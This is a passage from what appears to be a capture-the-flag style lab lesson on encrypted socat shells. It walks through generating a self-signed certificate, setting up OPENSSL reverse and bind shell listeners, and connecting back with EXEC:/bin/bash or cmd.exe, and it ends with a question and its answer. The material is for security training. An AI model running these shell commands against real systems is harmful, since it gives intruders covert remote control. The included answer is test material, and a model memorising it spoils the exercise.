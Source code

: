 We covered how to create basic shells in the previous task, so that syntax will not be covered again here. Suffice to say that any time `TCP` was used as part of a command, this should be replaced with `OPENSSL` when working with encrypted shells. We'll cover a few examples at the end of the task, but first let's talk about certificates.

We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine:

`openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`  
  
This command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. When you run this command it will ask you to fill in information about the certificate. This can be left blank, or filled randomly.

We then need to merge the two created files into a single `.pem` file:

`cat shell.key shell.crt > shell.pem`

Now, when we set up our reverse shell listener, we use:

`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -`

This sets up an OPENSSL listener using our generated certificate. `verify=0` tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority. Please note that the certificate *must* be used on whichever device is listening.

To connect back, we would use:

`socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`

The same technique would apply for a bind shell:

Target:

`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`

Attacker:

`socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -`

Again, note that even for a Windows target, the certificate must be used with the listener, so copying the PEM file across for a bind shell is required.

The following image shows an OPENSSL Reverse shell from a Linux target. As usual, the target is on the right, and the attacker is on the left:

![](https://i.imgur.com/UbOPN9q.png align="left")

  
This technique will also work with the special, Linux-only TTY shell covered in the previous task -- figuring out the syntax for this will be the challenge for this task. Feel free to use the Linux Practice box (deployable at the end of the room) to experiment if you're struggling to obtain the answer.

### Answer the questions below

1. What is the syntax for setting up an OPENSSL-LISTENER using the tty technique from the previous task? Use port 53, and a PEM file called "encrypt.pem" `socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0` [`FILE:tty,raw,echo=0`](FILE:tty,raw,echo=0)
    